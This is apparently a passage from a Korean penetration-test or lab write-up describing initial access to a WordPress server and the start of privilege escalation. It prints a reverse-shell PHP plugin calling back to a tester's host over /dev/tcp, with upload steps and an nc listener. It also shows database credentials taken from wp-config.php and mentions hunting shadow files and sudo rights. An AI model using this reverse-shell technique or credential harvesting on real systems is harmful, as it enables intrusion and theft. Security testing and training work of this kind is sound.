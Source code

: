 초기 침투

  

- 이후 초기 침투를 위해 wordpress 관리자 페이지에서 리버스쉘을 연결하는 악성 플러그인 설치한 뒤 점검자의 칼리에서 리버스쉘 연결하는 포트를 열어 `www-data` 유저의 쉘을 얻는 데 성공했다.

  

```

# vim reverse_plugin.php

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.5.121/8443 0>&1'"); ?>

------------------------------------

# zip

zip reverse_plugin.zip reverse_plugin.php

------------------------------------

# Upload

Wordpress > Plugins > Add New > Upload Plugin -> Activate Plugin

  

# 점검자 칼리

nc -lnvp 8443

```

  

- <img src="image-20.png" alt="낮은 권한 유저" style="zoom:67%;" />

  

- 정보 수집을 이어가던 중 `/var/html/blog/wp-config.php` 파일에서 데이터베이스 계정 정보 획득 했다 - `wordpressuser:P@sswordz3#`

- <img src="image-21.png" alt="wp-config" style="zoom:50%;" />

  
  
  

---

  

### 권한 상승

  

- 권한 상승을 위해 자동화된 정보 수집 툴인 `linpeas` 이용하여 정보 수집을 이어갔다. 루트의 shadow, passwd 파일 정보와 `sudo -l`에 `(ALL) NOPASSWD` 권한이 부여되어있는 바이너리를 발견했다.
